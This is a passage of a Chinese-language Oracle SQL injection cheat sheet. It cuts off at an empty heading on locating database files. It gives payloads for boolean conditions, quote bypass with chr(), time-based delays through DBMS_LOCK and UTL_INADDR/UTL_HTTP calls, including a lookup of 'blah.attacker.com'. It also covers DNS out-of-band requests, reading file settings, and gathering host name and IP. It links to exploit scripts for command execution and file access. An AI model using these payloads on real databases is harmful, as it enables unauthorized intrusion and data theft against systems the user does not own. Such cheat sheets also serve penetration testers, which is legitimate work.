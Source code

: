```
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; — 返回1
SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual; — 返回2

```

绕过引号：

```
SELECT chr(65) || chr(66) FROM dual; — 返回AB

```

延时：

```
BEGIN DBMS_LOCK.SLEEP(5); END; — priv, 在SELECT中用不了
SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — 如果反查很慢
SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual; — 如果正查很慢
SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual; — 如果发送TCP包被拦截或者很慢

```

— 更多关于延时的内容请看[Heavy Queries](http://technet.microsoft.com/en-us/library/cc512676.aspx)

发送DNS请求：

```
SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;
SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;

```

命令执行：

如果目标机装了JAVA就能执行命令，[看这里](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)

有时候ExtProc也可以，不过我一般都成功不了，[看这里](http://www.0xdeadbeef.info/exploits/raptor_oraextproc.sql)

本地文件读取：

[UTL_FILE](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)有时候能用。如果下面的语句没有返回null就行。

```
SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;

```

[JAVA](http://www.0xdeadbeef.info/exploits/raptor_oraexec.sql)能用来读取和写入文件，除了`Oracle Express`

主机名称、IP地址：

```
SELECT UTL_INADDR.get_host_name FROM dual;
SELECT host_name FROM v$instance;
SELECT UTL_INADDR.get_host_address FROM dual; — 查IP
SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual; — 查主机名称

```

定位DB文件：
